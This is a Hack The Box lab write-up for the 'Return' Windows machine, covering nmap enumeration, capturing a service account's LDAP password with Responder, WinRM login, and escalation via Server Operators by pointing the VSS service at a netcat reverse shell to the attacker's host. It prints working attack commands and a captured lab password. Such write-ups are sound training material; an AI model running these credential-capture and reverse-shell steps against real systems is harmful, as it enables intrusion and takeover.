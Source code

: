 # Return

# User Flag

## NMAP Enumeration

NMAP Port Scan:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.11.108

PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 127
80/tcp    open  http           syn-ack ttl 127
88/tcp    open  kerberos-sec   syn-ack ttl 127
135/tcp   open  msrpc          syn-ack ttl 127
139/tcp   open  netbios-ssn    syn-ack ttl 127
389/tcp   open  ldap           syn-ack ttl 127
445/tcp   open  microsoft-ds   syn-ack ttl 127
464/tcp   open  kpasswd5       syn-ack ttl 127
593/tcp   open  http-rpc-epmap syn-ack ttl 127
636/tcp   open  ldapssl        syn-ack ttl 127
3268/tcp  open  globalcatLDAP  syn-ack ttl 127
5985/tcp  open  wsman          syn-ack ttl 127
9389/tcp  open  adws           syn-ack ttl 127
47001/tcp open  winrm          syn-ack ttl 127
49664/tcp open  unknown        syn-ack ttl 127
49665/tcp open  unknown        syn-ack ttl 127
49666/tcp open  unknown        syn-ack ttl 127
49668/tcp open  unknown        syn-ack ttl 127
49671/tcp open  unknown        syn-ack ttl 127
49678/tcp open  unknown        syn-ack ttl 127
49679/tcp open  unknown        syn-ack ttl 127
49680/tcp open  unknown        syn-ack ttl 127
49683/tcp open  unknown        syn-ack ttl 127
49740/tcp open  unknown        syn-ack ttl 127
```

NMAP Service Scan:

```bash
nmap -sV -sC -Pn -v -oN nmap-report 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,5985,9389,47001,49664,49665,49666,49668,49671,49678,49679,49680,49683,49740

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-30 13:47:33Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49740/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-30T13:48:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m37s
```

## Web Enumeration

Found a website hosted on port 80. The website has a settings page, which looks to make a request to `printer.return.local` over port 389 with the user `svc-printer`. The password is not visible:

![Settings Page](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Windows%20Machines/Return/Images/Web%20-%20Settings%20Page.png)

It stands to reason, that if we change the server address to our attacker machine and spin up `responder`, we will be able to capture any LDAP requests that contain the user `svc-printer` and the accounts password.

```bash
sudo python3 /usr/share/responder/Responder.py -I tun0 -dwv

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

Checked for WinRM access:

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'

WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

Got the user flag:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> dir


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/30/2024   6:41 AM             34 user.txt
```

# Root Flag

## Windows Privilege Escalation

Checked account privileges and group permissions:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Can see that the user `svc-printer` is a member of the `Server Operators` [group](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#bkmk-serveroperators). Members of the Server Operators group can sign in to a server interactively, create and delete network shared resources, start and stop services, back up and restore files, format the hard disk drive of the computer, and shut down the computer.

1. Started by uploading `nc.exe` to the victim machine.
2. List `services`:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services
```

3. Change the config of an existing service so it uses the netcat instead for it’s binary:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.12 4444"
[SC] ChangeServiceConfig SUCCESS
```

4. Verify the service has been changed:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------                  
C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.12 4444                                                          True VSS
```

5. Start up a netcat reverse shell on kali and then start service:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS
```

6. Get a reverse shell on netcat:

```bash
$ nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.108] 56212
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```






